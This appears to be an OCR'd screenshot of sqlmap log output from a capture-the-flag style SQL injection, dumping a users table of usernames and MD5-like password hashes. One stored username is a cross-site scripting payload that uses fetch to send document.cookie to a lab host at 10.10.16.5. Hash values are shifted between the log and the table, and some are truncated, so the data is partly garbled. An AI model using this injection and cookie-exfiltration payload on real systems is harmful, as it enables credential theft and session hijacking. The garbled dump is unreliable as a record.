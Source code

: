 ```bash
[02:49:52] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'SQLite_masterdb'
[02:49:52] [INFO] resumed: 11
[02:49:52] [INFO] resumed: d1bbba3670febH
[02:49:52] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[02:49:52] [INFO] retrieved: axel
[02:49:56] [INFO] retrieved: ac369922d560f17d6eeb8b2c7dec498c
[02:50:31] [INFO] retrieved: rosa
[02:50:35] [INFO] retrieved: 42846631708f69c00ec0c0a8aa4a92ad
[02:51:12] [INFO] retrieved: robert
[02:51:18] [INFO] retrieved: 39e153e825c4a3d314a0dc7f7475ddbe
[02:51:53] [INFO] retrieved: fabian
[02:51:59] [INFO] retrieved: 781593e060f8d065cd7281c5ec5b4b86
[02:52:35] [INFO] retrieved: jerryson
[02:52:43] [INFO] retrieved: 1b6dce240bbfbc0905a664ad199e18f8
[02:53:19] [INFO] retrieved: larry
[02:53:24] [INFO] retrieved: c598f6b844a36fa7836fba0835f1f6
[02:53:59] [INFO] retrieved: royer
[02:54:04] [INFO] retrieved: e41ccefa439fc454f7eadbf1f139ed8a
[02:54:40] [INFO] retrieved: peter
[02:54:45] [INFO] retrieved: 24a8ec003ac2e1b3c5953a6f95f8f565
[02:55:21] [INFO] retrieved: angel
[02:55:27] [INFO] retrieved: 88e4dceccd48820cf77b5cf6c08698ad
[02:56:01] [INFO] retrieved: jobert
[02:56:07] [INFO] retrieved: c0875f003f521ed64586f6c8e6c34745
[02:56:45] [INFO] retrieved: <script>fetch("http://10.10.16.5/?value=" + document.cookie);</script> 
[02:57:56] [INFO] recognized possible password hashes in column 'password'
Database: <current>
Table: users
[11 entries]
+-------------------------------------------------------------------------+----------------------------------+
| username                                                                | password                         |
+-------------------------------------------------------------------------+----------------------------------+
| axel                                                                    | d1bbba3670febH                   |
| rosa                                                                    | ac369922d560f17d6eeb8b2c7dec498c |
| robert                                                                  | 42846631708f69c00ec0c0a8aa4a92ad |
| fabian                                                                  | 39e153e825c4a3d314a0dc7f7475ddbe |
| jerryson                                                                | 781593e060f8d065cd7281c5ec5b4b86 |
| larry                                                                   | 1b6dce240bbfbc0905a664ad199e18f8 |
| royer                                                                   | c598f6b844a36fa7836fba0835f1f6   |
| peter                                                                   | e41ccefa439fc454f7eadbf1f139ed8a |
| angel                                                                   | 24a8ec003ac2e1b3c5953a6f95f8f565 |
| jobert                                                                  | 88e4dceccd48820cf77b5cf6c08698ad |
| <script>fetch("http://10.10.16.5/?value=" + document.cookie);</script>  | c0875f003f521ed64586f6c8e6c34745 |
+-------------------------------------------------------------------------+----------------------------------+

```